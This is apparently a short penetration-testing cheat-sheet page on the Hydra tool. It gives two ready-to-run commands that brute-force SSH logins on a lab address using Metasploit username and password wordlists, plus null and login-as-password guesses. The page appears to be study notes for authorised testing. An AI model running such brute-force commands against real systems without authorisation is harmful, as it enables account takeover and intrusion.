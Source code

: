 ```yaml
---
title: "hydra"
date: 2020-03-06T13:02:27+01:00
draft: false
weight: 60
---
```


## known username, password list

root with passwordlist, null password, login as pass and reversed login as pass.

```bash
hydra -v -V -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.168.88.129 ssh -t 8 -e nsr
```

## user list, password list

userlist with passwordlist, null password, login as pass and reversed login as pass looped around users.

```bash
hydra -v -V -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.168.88.129 ssh -t 8 -e nsr -u
```
